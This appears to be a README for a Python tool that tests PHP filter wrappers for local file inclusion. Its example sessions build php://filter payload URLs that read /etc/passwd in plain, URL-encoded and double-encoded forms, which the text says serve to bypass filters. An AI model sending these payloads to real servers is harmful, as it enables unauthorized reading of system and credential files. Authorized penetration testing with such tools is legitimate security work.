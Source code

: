 ##PHP Filter Testing Program Guide

## Overview

This Python program tests PHP filter wrappers to read local files on a web server. It allows you to select different filters, encoding types, and files to test.

## Installation

Install required packages:

```
pip install requests colorama
```

## Usage

Run program:

```
python PHP_Filter_Test.py
```

You will be prompted to enter:

- Target URL 
- File to read
- Filter type
- Specific filter
- URL encoding type

The program makes a request using your selections and prints the response.

## Examples

**Read /etc/passwd with normal base64 filter**

```
Enter the URL to test: http://example.com
Enter the file name to test: /etc/passwd  

Select filter type: 1 (Normal)

Select filter to test: 4 (convert.base64-decode) 

Select URL encoding type: 1 (Normal)

Testing: http://example.com/php://filter/convert.base64-decode/resource=/etc/passwd
```

This tests the base64-decode filter on the /etc/passwd file without any URL encoding.

**Read /etc/passwd with encoded base64 filter**


```
Enter the URL to test: http://example.com
Enter the file name to test: /etc/passwd

Select filter type: 2 (Encoded)

Select filter to test: 6 (convert.base64-encode|convert.base64-decode)

Select URL encoding type: 2 (Encoded) 

Testing: http://example.com/php%3a%2f%2ffilter%2fconvert%2ebase64-encode%7cconvert%2ebase64-decode%2fresource%3d%2fetc%2fpasswd
```

This tests the base64 filter with URL encoding to bypass filters.

**Read /etc/passwd with double encoded zlib filter**

```
Enter the URL to test: http://example.com
Enter the file name to test: /etc/passwd  

Select filter type: 3 (Double Encoded)

Select filter to test: 9 (zlib.deflate/convert.base64-encode)

Select URL encoding type: 3 (Double Encoded)

Testing: http://example.com/php%253A%252F%252Ffilter%252Fzlib%252Edeflate%252Fconvert%252Ebase64-encode%252Fresource%253D%252Fetc%252Fpasswd
```

This shows how to double encode the filter and URL to bypass restrictions.

This demonstrates how you can test different filter wrappers to identify file read vulnerabilities.
